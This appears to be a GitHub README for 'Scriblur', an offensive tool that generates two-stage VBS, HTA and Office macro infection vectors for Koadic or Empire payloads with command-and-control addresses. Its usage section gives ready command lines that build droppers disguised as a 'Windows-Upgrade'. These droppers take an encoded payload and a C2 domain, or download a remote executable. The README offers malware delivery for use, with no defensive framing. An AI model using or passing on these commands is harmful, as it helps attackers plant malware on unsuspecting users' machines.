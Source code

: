 # Scriblur
The beginnings of a C2 framework. Except minus all the C2 stuff so far. Currently generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
Scriblur is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python Scriblur.py -n Windows-Upgade -p b64encodedpayload -c amazon.com/c2/domain

## HTA Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/HTA.png)

For the Macro Subroutine:
  python Scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe

## Macro Example
![alt text](https://github.com/nins3i/Sriblur/blob/master/Macro.png)
